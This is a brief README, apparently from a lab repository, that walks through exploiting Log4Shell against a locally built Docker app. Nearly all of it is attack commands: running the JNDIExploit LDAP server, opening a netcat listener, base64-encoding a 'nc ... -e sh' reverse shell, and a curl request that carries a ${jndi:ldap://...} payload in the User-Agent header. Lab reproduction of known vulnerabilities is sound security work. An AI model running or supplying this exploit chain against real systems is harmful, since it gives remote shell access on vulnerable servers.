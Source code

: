 # Log4Shell



#### Steps to run


## Build and Run

```
docker-compose up --build
```


## Setup ldap server
-   Github [repo](https://github.com/feihong-cs/JNDIExploit)
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p <port>
```


## Listener
```
nc -vlp <port>
```


## convert to base64
```
echo -n 'nc <ip> <port> -e sh' | base64
```


## payload
```
curl http://localhost:8080/hello/user -H 'User-Agent: ${jndi:ldap://<private_ip>:1389/Basic/Command/Base64/<netcat base64 payload>}'
```

